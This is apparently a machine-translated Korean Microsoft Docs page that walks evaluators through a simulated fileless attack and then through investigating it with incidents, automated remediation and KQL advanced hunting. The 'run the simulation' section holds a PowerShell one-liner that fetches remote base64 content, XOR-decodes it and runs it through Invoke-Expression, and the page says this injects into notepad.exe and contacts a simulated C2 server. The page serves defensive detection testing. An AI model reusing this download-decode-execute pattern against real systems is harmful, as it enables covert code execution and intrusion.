


# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Microsoft Threat Protection 공격 시뮬레이션 실행  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**적용 대상:**
- Microsoft 위협 방지
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>만들려는 </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>함 </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>공격 시뮬레이트 </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>닫기 및 요약 </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

현재 공격 시뮬레이션 단계입니다.

파일럿 환경을 준비한 후에는 Microsoft Threat Protection 인시던트 관리 및 자동화 된 조사 및 업데이트 기능을 테스트 해야 합니다. Microsoft는 고급 기술을 활용 하 여 검색에서 숨기는 정교한 공격을 시뮬레이트하는 데 도움이 될 것입니다. 이 공격은 도메인 컨트롤러에서 열린 SMB (서버 메시지 블록) 세션을 열거 하 고 사용자 장치의 최근 IP 주소를 검색 합니다. 일반적으로이 유형의 공격에는 처리 되지 않은 장치에 삭제 된 파일이 포함 되지 않으며 메모리에만 발생 합니다. 기존 시스템 및 관리 도구를 사용 하 여 해당 코드를 시스템 프로세스에 주입 하 여 실행을 숨기고, 피하기 검색을 수행 하 고 장치에서 유지할 수 있도록 합니다.

이 시뮬레이션에서는 샘플 시나리오가 PowerShell 스크립트로 시작 됩니다. 사용자가 스크립트를 실행 하는 tricked 될 수 있습니다. 또는 공격자가 네트워크에서 laterally를 이동 하려고 시도 하는 이전에 감염 된 장치에서 다른 컴퓨터로 원격 연결에서 실행 될 수 있습니다. 관리자가 여러 가지 관리 작업을 수행 하기 위해 스크립트를 원격으로 실행 하기도 하기 때문에 이러한 스크립트를 검색 하기가 어려울 수 있습니다.


시뮬레이션 중에는 공격을 통해 겉보기에 shellcode 코드가 삽입 됩니다. 이 시나리오에서는 notepad.exe를 사용 합니다. 시뮬레이션에이 프로세스를 선택 했지만 공격자가 svchost.exe와 같은 장기 실행 시스템 프로세스를 대상으로 하는 것이 더 쉽습니다. 그리고 나 서 계속 하는 방법에 대 한 지침을 받으려면 shellcode는 공격자의 C2 (명령 및 제어) 서버에 연락 하 여 이동 합니다. 또한 스크립트는 DC (도메인 컨트롤러)에 대해 검사 쿼리를 실행 하려고 시도 합니다. 이를 통해 공격자는 최근 사용자 로그인 정보에 대 한 정보를 얻을 수 있습니다. 공격자가 이러한 정보를가지고 있으면 네트워크에서 laterally를 이동 하 여 특정 중요 한 계정에 액세스할 수 있습니다.

>[!IMPORTANT]
>최적의 결과를 위해 공격 시뮬레이션 지침을 가능한 한 면밀 하 게 따르세요.


## <a name="simulation-environment-requirements"></a>시뮬레이션 환경 요구 사항

준비 단계가 진행 되는 동안 파일럿 환경을 이미 구성 했기 때문에이 시나리오에는 테스트 장치 및 도메인 컨트롤러의 두 장치가 있는지 확인 해야 합니다.

1.  테 넌 트에서 [Microsoft Threat Microsoft Threat Protection을 사용 하도록 설정](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)했는지 확인 합니다.

2.  테스트 도메인 컨트롤러 구성을 확인 합니다.

    - 장치는 Windows Server 2008 R2 이상 버전에서 실행 됩니다.
    - [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) 에 대 한 테스트 도메인 컨트롤러와 [원격 관리](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)를 사용 하도록 설정 합니다.    
    - [AZURE ATP 및 Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) 을 사용 하도록 설정 되었는지 확인 합니다.
    - 테스트 사용자가 도메인에 작성 됨-관리자 권한이 필요 하지 않습니다.

3.  테스트 장치 구성 확인:
 
    1.  장치는 Windows 10 버전 1903 이상 버전에서 실행 됩니다.
    
    1.  테스트 장치가 테스트 도메인에 가입 되어 있습니다.
    
    1.  [Windows Defender 바이러스 백신을 사용 하도록 설정](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)합니다. Windows Defender 바이러스 백신을 사용 하도록 설정 하는 데 문제가 있는 경우이 [문제 해결 항목](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)을 참조 하세요.
    
    1.  테스트 장치가 [Microsoft Defender Advanced Threat Protection (MDATP)에 등록](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)확인 합니다.

기존 테 넌 트를 사용 하 고 장치 그룹을 구현 하는 경우 테스트 장치에 대 한 전용 장치 그룹을 만들고 구성 UX에서 최상위 수준에 밀어넣습니다.


## <a name="run-the-simulation"></a>시뮬레이션 실행

공격 시나리오 시뮬레이션을 실행 하려면:

1.  테스트 사용자 계정을 사용 하 여 테스트 장치에 로그인 합니다.

2.  테스트 장치에서 Windows PowerShell 창을 엽니다.

3.  다음 시뮬레이션 스크립트를 복사 합니다.

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > 웹 브라우저에서이 문서를 여는 경우 특정 문자를 잃지 않거나 추가 줄 바꿈을 도입 하지 않고 전체 텍스트를 복사 하는 데 문제가 있을 수 있습니다. 이 문서를 다운로드 하 여 Adobe Reader에서 엽니다.

4. 프롬프트에서 복사한 스크립트를 붙여넣고 실행 합니다.

>[!NOTE]
>RDP (원격 데스크톱 프로토콜)를 사용 하 여 PowerShell을 실행 하는 경우에는 **CTRL-V** 핫키 또는 오른쪽 클릭 붙여넣기 방법이 작동 하지 않을 수 있으므로 rdp 클라이언트에서 클립보드 텍스트 입력 명령을 사용 합니다.  최신 버전의 PowerShell 에서도 이러한 메서드를 사용할 수 없는 경우도 있는데, 먼저 메모리에서 메모장에 복사한 다음 가상 컴퓨터에 복사한 다음 PowerShell에 붙여 넣어야 합니다.

몇 초 후에 <i>notepad.exe</i> 가 열립니다. 시뮬레이션 된 공격 코드가 notepad.exe에 삽입 됩니다. 전체 시나리오를 경험 하도록 자동으로 생성 된 메모장 인스턴스를 계속 열어 둡니다.

시뮬레이트된 공격 코드는 외부 IP 주소 (C2 서버 시뮬레이트)와 통신을 시도 하 고 SMB를 통해 도메인 컨트롤러에 대해 정찰을 시도 합니다.

이 스크립트가 완료 되 면 PowerShell 콘솔에 메시지가 표시 됩니다.

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

자동 인시던트 및 응답 기능을 작동 하는 것을 확인 하려면 notepad.exe 프로세스를 열어 두십시오. 자동 인시던트 및 응답이 메모장 프로세스를 중지 합니다.


## <a name="investigate-an-incident"></a>인시던트 조사

>[!NOTE]
>이 시뮬레이션을 안내 하기 전에 다음 비디오를 시청 하 여 문제 관리에서 관련 알림을 조사 프로세스의 일부로 포함 하 고, 포털에서 찾을 수 있으며, 보안 작업에 도움이 되는 방법을 알아봅니다.

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

이제 SOC 분석가 보기로 전환한 후에는 Microsoft 365 보안 센터 포털에서 공격을 조사 하기 시작할 수 있습니다. 

1.  모든 장치에서 [Microsoft 365 보안 센터 포털](https://security.microsoft.com/incidents) 인시던트 큐를 엽니다.

2.  메뉴에서 **인시던트** 로 이동 합니다. 

    

3.  시뮬레이트된 공격에 대 한 새로운 인시던트가 인시던트 큐에 표시 됩니다.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>단일 인시던트 인 공격 조사

Microsoft Threat Protection은 분석을 연관 시키고 서로 다른 제품의 모든 관련 알림과 조사를 하나의 인시던트 엔터티로 집계 합니다. 이렇게 하면 Microsoft Threat Protection이 보다 폭넓은 공격 영역을 표시 하 여 SOC 분석가가 복잡 한 위협에 대해 이해 하 고 대응 하도록 허용 합니다.

이 시뮬레이션 중에 생성 된 경고는 동일한 위협과 연결 되며, 결과적으로 단일 인시던트로 자동 집계 됩니다.

인시던트를 확인 하려면:

1.  **문제** 큐로 이동 합니다.
 
    

2.  인시던트 이름 왼쪽에 있는 원으로 클릭 하 여 최신 항목을 선택 합니다. 측면 패널에는 관련 된 모든 경고를 포함 하 여 인시던트에 대 한 추가 정보가 표시 됩니다. 각 인시던트는 포함 된 경고의 특성을 기반으로 하는 고유한 이름을 사용 합니다.

    

    대시보드에 표시 되는 경고는 서비스 리소스 (Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection 및 Office ATP)를 기반으로 필터링 할 수 있습니다.  

3.  문제에 대 한 자세한 정보를 보려면 **문제 발생 페이지 열기** 를 선택 합니다.

    **인시던트 페이지에서** 문제와 관련 된 모든 경고 및 정보를 볼 수 있습니다. 여기에는 경고에 포함 된 엔터티 및 자산, 경고의 검색 원본 (Azure ATP, EDR), 그리고 서로 연결 된 이유가 포함 됩니다. 검토 문제 경고 목록에는 공격 진행 상태가 표시 됩니다. 이 보기에서 개별 알림을 보고 조사할 수 있습니다.

    오른쪽 메뉴에서 **인시던트 관리** 를 클릭 하 여 인시던트에 태그를 지정 하 고, 자신에 게 할당 하 고, 설명을 추가할 수도 있습니다.

    

    


### <a name="review-generated-alerts"></a>생성 된 경고 검토 

시뮬레이트된 공격 중에 생성 된 일부 알림을 살펴보겠습니다.

>[!NOTE]
>여기서는 시뮬레이트된 공격 중에 생성 되는 몇 가지 경고만 안내 합니다. 테스트 장치에서 실행 중인 Windows 버전 및 Microsoft Threat Protection 제품에 따라 약간 다른 경고가 표시 될 수 있습니다.

 


**경고: 의심 스러운 프로세스 주입이 관찰 되었습니다 (원본: Microsoft Defender ATP EDR).**

고급 공격자는 정교한 및 stealthy 메서드를 사용 하 여 메모리에 유지 하 고 검색 도구에서 숨깁니다. 일반적인 방법은 악의적인 실행 파일이 아닌 신뢰할 수 있는 시스템 프로세스에서 작동 하 여 악성 코드를 검색 하기 위한 도구 및 보안 작업을 어렵게 만드는 것입니다.

SOC 분석가가 이러한 advanced 공격을 찾아낼 수 있도록 하기 위해 Microsoft Defender ATP의 딥 메모리 센서가 클라우드 서비스에 다양 한 프로세스 간 코드 주입 기술에 대 한 전례 없는 가시성을 제공 합니다. 다음 그림에서는 Microsoft Defender ATP가 <i>notepad.exe</i>코드 삽입 시도에 대해 어떻게 감지 하 고 알림을 받는 방법을 보여 줍니다.

 


**경고: 프로세스에서 명령줄 인수 없이 실행 된 예기치 않은 동작 (원본: Microsoft Defender ATP EDR)**

Microsoft Defender ATP 검색은 공격 기술에 대 한 가장 일반적인 특성을 대상으로 하는 경우가 많습니다. 이렇게 하면 내구성을 보장 하 고 공격자가 최신 기법을 전환할 수 있습니다.

대규모 학습 알고리즘을 사용 하 여 전 세계의 일반 프로세스에 대 한 일반적인 동작을 설정 하 고 이러한 프로세스에 비정상적인 동작이 발생 하는 경우를 조사 합니다. 이러한 비정상 동작은 대개 불필요 한 코드가 도입 되어 다른 신뢰할 수 없는 프로세스에서 실행 되 고 있음을 나타냅니다.

이 시나리오에서 <i>notepad.exe</i> 프로세스에는 외부 위치와의 통신을 포함 하 여 비정상적인 동작이 발생 합니다. 이 결과는 악성 코드를 도입 및 실행 하는 데 사용 되는 구체적인 방법과는 별개입니다.

>[!NOTE]
>이 경고는 추가 백 엔드 처리가 필요한 기계 학습 모델을 기반으로 하기 때문에 포털에이 경고가 표시 될 때까지 다소 시간이 걸릴 수 있습니다.

경고 세부 정보에는 외부 IP 주소, 즉 확장 조사를 위해 피벗으로 사용할 수 있는 표시기가 포함 되어 있습니다.

경고 프로세스 트리의 IP 주소를 클릭 하 여 IP 주소 세부 정보 페이지를 확인 합니다.

 

다음 그림에서는 선택한 IP 주소 정보 페이지 (경고 프로세스 트리에서 IP 주소 클릭)를 표시 합니다.


**알림: 사용자 및 SMB (IP 주소 검사) (원본: Azure ATP)**

서버 메시지 블록 (SMB) 프로토콜을 사용한 열거 공격자가 네트워크를 통해 laterally를 이동 하 여 특정 중요 한 계정에 액세스 하는 데 도움이 되는 최근 사용자 로그온 정보를 가져올 수 있도록 합니다.

이 검색에서는 SMB 세션 열거가 도메인 컨트롤러에 대해 실행 되는 경우 경고가 트리거됩니다.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>장치 시간 표시 막대 검토 [Microsoft Defender ATP]
이 인시던트의 다양 한 경고를 살펴본 후 앞에서 조사 했던 인시던트 페이지로 다시 이동 합니다. 인시던트 페이지에서 **장치** 탭을 클릭 하 여이 인시던트에 포함 된 장치를 MICROSOFT Defender Atp 및 Azure ATP에서 보고 한 대로 검토 합니다.

공격이 수행 된 장치의 이름을 클릭 하 여 해당 장치에 대 한 엔터티 페이지를 엽니다. 이 페이지에서 트리거된 경고 및 관련 이벤트를 볼 수 있습니다.

**시간 표시 막대** 탭을 클릭 하 여 장치 시간 표시 막대를 열고, 경고가 발생 한 시간 순서에 따라 장치에서 관찰 된 모든 이벤트 및 동작을 확인 합니다.

 

보다 흥미로운 동작 중 일부를 확장 하면 프로세스 트리와 같은 유용한 정보를 얻을 수도 있습니다.

예를 들어 **의심 스러운 프로세스 주입이 관찰**될 때까지 아래로 스크롤합니다. 왼쪽 창에 있는 **이벤트 엔터티** 그래프에이 동작에 대 한 전체 프로세스 트리를 표시 하려면 **notepad.exe Process 이벤트에 삽입powershell.exe** 을 클릭 합니다. 필요한 경우 검색 창을 사용 하 여 필터링 합니다.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>사용자 정보 검토 [Microsoft Cloud App Security]

인시던트 페이지에서 **사용자** 탭을 클릭 하 여 공격에 관련 된 사용자 목록을 표시 합니다. 이 표에서는 각 사용자의 **조사 우선 순위** 점수를 포함 하 여 각 사용자에 대 한 추가 정보를 포함 합니다.

사용자 이름을 클릭 하 여 추가 조사가 수행 될 수 있는 user profile 페이지를 엽니다. [위험한 사용자 조사에 대 한 자세한 내용을 읽으십시오](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>자동화된 조사 및 수정
>[!NOTE]
>이 시뮬레이션을 안내 하기 전에 다음 비디오를 시청 하 여 자동화 된 자체 치유가 어떻게 제공 되는지, 포털에서 찾을 수 있는 위치, 그리고 보안 작업에 도움이 되는 방식에 대해 알아봅니다.

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Microsoft 365 보안 센터 포털의 인시던트로 다시 이동 합니다. **인시던트** 페이지의 **조사** 탭에는 Azure ATP 및 Microsoft Defender atp가 트리거한 자동화 된 조사가 표시 됩니다. 아래 스크린샷에서는 Microsoft Defender ATP에서 트리거한 자동화 된 조사만 표시 합니다. 기본적으로 Microsoft Defender ATP은 업데이트를 필요로 하는 큐에 있는 아티팩트를 자동으로 remediates.


조사를 트리거한 경고를 클릭 하 여 **조사 정보** 페이지를 엽니다. 다음이 표시 됩니다.
- 자동 조사를 트리거한 경고입니다.
- 영향을 받는 사용자 및 장치 추가 디바이스에서 표시기가 발견 되 면 추가 장치도 나열 됩니다.
- 증거의 목록입니다. 파일, 프로세스, 서비스, 드라이버 및 네트워크 주소와 같은 검색 및 분석 된 엔터티입니다. 이러한 엔터티는 경고에 대 한 가능한 관계를 분석 하 고 양성 또는 악의적으로 등급이 지정 됩니다.
- 위협이 발견 되었습니다. 조사 중에 발견 된 알려진 위협

>[!NOTE]
>타이밍에 따라 자동화 조사가 계속 실행 되 고 있을 수 있습니다. 증거를 수집 및 분석 하 고 결과를 검토 하기 전에 프로세스가 완료 될 때까지 몇 분 정도 기다립니다. **조사 세부 정보** 페이지를 새로 고쳐 최신 결과를 가져옵니다.


자동 조사 중에 Microsoft Defender ATP가 notepad.exe 프로세스를 확인 했으며, 수정이 필요한 아티팩트 중 하나로 삽입 되었습니다. Microsoft Defender ATP는 자동화 된 재구성의 일부로 의심 스러운 프로세스 주입을 자동으로 중지 합니다. 

테스트 장치에서 실행 중인 프로세스 목록에 <i>notepad.exe</i> 사라지게 되는 것을 볼 수 있습니다.

## <a name="resolve-the-incident"></a>문제 해결

조사가 완료 되 고 재구성 된 것으로 확인 되 면 인시던트를 닫습니다.

**인시던트 관리**를 클릭 합니다. **인시던트를 해결** 하려면 상태를 설정 하 고 관련 분류를 선택 합니다.

인시던트가 해결 되 면 Microsoft 365 보안 센터 및 관련 포털의 관련 경고를 모두 닫습니다.

 

<br>
이렇게 하면 문제 관리 및 자동화 된 조사 및 업데이트 시나리오에 대 한 공격 시뮬레이션이 발생 합니다. 다음 시뮬레이션에서는 악성 파일에 대 한 사전 위협 구하기를 안내 합니다. 

## <a name="advanced-hunting-scenario"></a>고급 구하기 시나리오

>[!NOTE]
>시뮬레이션을 안내 하기 전에 다음 비디오를 시청 하 여 고급 구하기 개념을 이해 하 고, 포털에서 찾을 수 있는 위치를 확인 하 고, 보안 작업에 도움이 되는 방법을 알아봅니다.

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>구하기 환경 요구 사항
이 시나리오에는 단일 내부 사서함 및 장치가 필요 합니다. 또한 테스트 메시지를 보내려면 외부 전자 메일 계정도 필요 합니다.

1.  테 넌 트에서 [Microsoft Threat Protection을 사용 하도록 설정](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)했는지 확인 합니다.
2.  전자 메일을 받는 데 사용할 대상 사서함을 식별 합니다.
    a.  이 사서함은 Office 365 ATP b가 모니터링 해야 합니다.  요구 사항 3에서이 사서함에 액세스 해야 하는 장치
3.  테스트 장치 구성: a를 실행 합니다.  Windows 10 버전 1903 이상 버전을 사용 하 고 있는지 확인 합니다.
    b.  테스트 장치를 테스트 도메인에 연결 합니다.
    c.  [Windows Defender 바이러스 백신을 사용 하도록 설정](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)합니다. Windows Defender 바이러스 백신을 사용 하도록 설정 하는 데 문제가 있는 경우 [이 문제 해결 항목](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)을 참조 하세요.
    d.  [Microsoft Defender Advanced Threat Protection (MDATP)에 내장](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)되어 있습니다.

### <a name="run-the-simulation"></a>시뮬레이션 실행
1.  외부 전자 메일 계정에서 테스트 환경 요구 사항 섹션의 2 단계에서 식별 된 사서함으로 전자 메일을 보냅니다. 기존 전자 메일 필터 정책을 통해 허용 되는 첨부 파일을 포함 합니다.  이 파일은 악의적이 든 실행 파일이 될 필요는 없습니다. 권장 되는 파일 형식은 <i>.pdf</i>, <i>.exe</i> (허용 되는 경우) 또는 Office 문서 (예: Word 파일)입니다.
2.  테스트 환경 요구 사항 섹션의 3 단계에서 정의 된 대로 구성 된 장치에서 보낸 전자 메일을 엽니다. 첨부 파일을 열거나 장치에 저장 합니다.


**이동 검색**
1.  Security.microsoft.com 포털을 엽니다.

2.  **사냥 > 고급 구하기**로 이동 합니다.

     

3.  전자 메일 이벤트를 수집 하 여 시작 되는 쿼리를 작성 합니다.

    1.  쿼리 창에서 새로 만들기를 선택 합니다.
    
    1.  스키마에서 EmailEvents 테이블을 두 번 클릭 합니다.

        ```
        EmailEvents 
        ```                                        

    1.  시간 프레임을 지난 24 시간으로 변경 합니다. 위에서 시뮬레이션을 실행 했을 때 보낸 전자 메일이 지난 24 시간 이내에 있는 것으로 가정 하 고 그렇지 않으면 시간 프레임을 변경 합니다.
    
         

    1.  쿼리를 실행 합니다.  파일럿 환경에 따라 결과가 여러 개 있을 수 있습니다.  

        > [!NOTE]
        > 데이터 반환을 제한 하는 필터링 옵션은 다음 단계를 참조 하십시오.

         

        > [!NOTE]
        > 고급 구하기 쿼리 결과를 테이블 형식 데이터로 표시 합니다. 차트와 같은 다른 형식 유형의 데이터를 볼 수도 있습니다.    

    1.  결과를 확인 하 고 열었던 전자 메일을 식별할 수 있는지 확인 합니다.  메시지가 고급 구하기에 표시 되는 데 최대 2 시간이 걸릴 수 있습니다. 전자 메일 환경이 크고 결과가 많은 경우에는 **필터 표시 옵션** 을 사용 하 여 메시지를 찾을 수 있습니다. 

        이 예제에서는 전자 메일이 Yahoo 계정에서 전송 되었습니다. **+** SenderFromDomain 섹션 아래의 **yahoo.com** 옆에 있는 아이콘을 클릭 한 다음 **적용** 을 클릭 하 여 선택한 도메인을 쿼리에 추가 합니다.  시뮬레이션을 실행 하 여 결과를 필터링 하는 1 단계에서 테스트 메시지를 보내는 데 사용 된 도메인 또는 전자 메일 계정을 사용 해야 합니다.  쿼리를 다시 실행 하 여 더 작은 결과 집합을 가져와 시뮬레이션에서 메시지가 표시 되는지 확인 합니다.
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  쿼리 결과 행을 클릭 하 여 레코드를 검사할 수 있습니다.
   
         

4.  전자 메일을 볼 수 있음을 확인 했으므로 이제 첨부 파일에 대 한 필터를 추가 합니다. 환경에 첨부 파일이 있는 모든 전자 메일에 포커스를 맞춥니다. 이 시나리오에서는 사용자 환경에서 전송 되는 것이 아니라 인바운드 전자 메일에 집중 합니다. 추가한 필터를 제거 하 여 메시지를 찾고 "| 여기에서 **AttachmentCount > 0** 및 **emaildirection**  ==  **"인바운드" "**

    다음 쿼리는 모든 전자 메일 이벤트에 대 한 초기 쿼리 보다 더 짧은 목록의 결과를 보여 줍니다.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  다음으로, 첨부 파일에 대 한 정보 (예: 이름, 해시)를 결과 집합에 포함 합니다. 이렇게 하려면 **EmailAttachmentInfo** 테이블을 조인 합니다. 조인에 사용 하는 일반 필드는 **Networkmessageid** 및 **RecipientObjectId**입니다.

    다음 쿼리에는 추가 줄 "|"도 포함 되어 있습니다. **project-Rename EmailTimestamp = Timestamp**"다음 단계에서 추가할 파일 작업과 관련 된 해당 전자 메일 및 타임 스탬프와 관련 된 타임 스탬프를 식별 하는 데 도움이 되는 정보입니다.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  다음으로, **EmailAttachmentInfo** 테이블의 **SHA256** 값을 사용 하 여 해당 해시에 대 한 **devicefileevents** (끝점에서 발생 한 파일 작업)를 찾습니다.  여기에는 일반 필드가 첨부 파일의 SHA256 해시가 됩니다.

    결과 테이블에는 이제 끝점 (Microsoft Defender ATP), 장치 이름, 수행 된 작업 (이 경우에는 FileCreated 이벤트만 포함 하도록 필터링 됨), 그리고 파일을 저장 한 위치 등의 세부 정보가 포함 됩니다. 프로세스와 연결 된 계정 이름도 포함 됩니다.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

    이제 사용자가 첨부 파일을 열거나 저장 한 모든 인바운드 전자 메일을 식별 하는 쿼리를 만들었습니다. 또한이 쿼리를 구체화 하 여 특정 보낸 사람 도메인, 파일 크기, 파일 형식 등을 필터링 할 수 있습니다.

7.  기능은 전파, 서명자 및 발급자 정보와 같은 파일에 대 한 추가 TI 데이터를 가져올 수 있는 특별 한 유형의 조인입니다.  파일에 대 한 자세한 내용을 보려면 **Fileprofile ()** 함수 향상을 사용 하십시오.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


**검색 만들기**

나중에 발생 한 경우에 대 한 **알림을 받을** 정보를 식별 하는 쿼리를 만든 후에는 쿼리에서 사용자 지정 검색을 만들 수 있습니다. 

사용자 지정 검색은 설정한 빈도에 따라 쿼리를 실행 하 고, 쿼리 결과는 선택 하는 영향을 받는 자산에 따라 보안 경고를 만듭니다. 이러한 경고는 인시던트와 연관 되며, 제품 중 하나에서 생성 된 다른 보안 알림과 마찬가지로 심사 될 수 있습니다.

1.  쿼리 페이지에서 찾기 지침의 7 단계에서 추가한 줄 7과 8을 제거 하 고 **검색 규칙 만들기**를 클릭 합니다. 
    
     

    > [!NOTE]
    > **검색 규칙 만들기** 를 클릭 하는 경우 쿼리에 구문 오류가 있으면 검색 규칙이 저장 되지 않습니다. 쿼리를 두 번 검사 하 여 오류가 없는지 확인 합니다. 


2.  보안 팀이 경고를 이해 하 고, 생성 된 이유 및 수행할 것으로 예상 되는 작업을 확인할 수 있도록 하는 정보로 필수 필드를 채웁니다. 

    

    필드를 명확 하 게 채워 다음 사용자에 게이 검색 규칙에 대 한 의사 결정을 내리는 데 도움을 주어 야 합니다. 

3.  이 경고의 영향을 받는 엔터티를 선택 합니다. 이 경우에는 **장치** 및 **사서함**을 선택 합니다.

    
 

4.  경고가 트리거되는 경우 수행할 작업을 결정 합니다. 이 경우에는 다른 작업을 수행할 수 있지만 바이러스 백신 검사를 실행 합니다. 

     

5.  알림 규칙의 범위를 선택 합니다. 이 쿼리는 장치를 포함 하므로 Microsoft Defender ATP 컨텍스트에 따라 장치 그룹이이 사용자 지정 검색과 관련이 있습니다.  영향을 받는 엔터티로 장치를 포함 하지 않는 사용자 지정 검색을 만드는 경우 범위가 적용 되지 않습니다.  

     

    이 파일럿에서이 규칙을 프로덕션 환경의 테스트 장치 하위 집합으로 제한할 수 있습니다.

6.  **만들기**를 선택합니다. 그런 다음 탐색 패널에서 **사용자 지정 검색 규칙** 을 선택 합니다.
 
     

     

    이 페이지에서 세부 정보 페이지를 여는 검색 규칙을 선택할 수 있습니다. 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a>추가 고급 구하기 단계별 연습

고급 구하기에 대 한 자세한 내용은 다음 웹캐스트에서 MTP (Microsoft Threat Protection) 내의 고급 구하기 기능을 사용 하 여 크로스-기둥 쿼리를 만들고, 엔터티에 대 한 피벗을 수행 하 고, 사용자 지정 검색 및 재구성 작업을 만듭니다.

>[!NOTE]
>파일럿 테스트 랩 환경에서 구하기 쿼리를 실행 하려면 자체 GitHub 계정을 사용 하 여 준비 해야 합니다.  

|  제목  |  설명  |  MP4 다운로드  |  YouTube에서 보기  |  사용할 CSL 파일  |
|:-----|:-----|:-----|:-----|:-----|
| 에피소드 1: KQL 기본 | Microsoft Threat Protection의 고급 구하기 기능에 대 한 기본 사항을 다루겠습니다. 사용 가능한 고급 구하기 데이터 및 기본 KQL 구문 및 연산자에 대해 알아봅니다. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [에피소드 1: Git의 CSL 파일](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
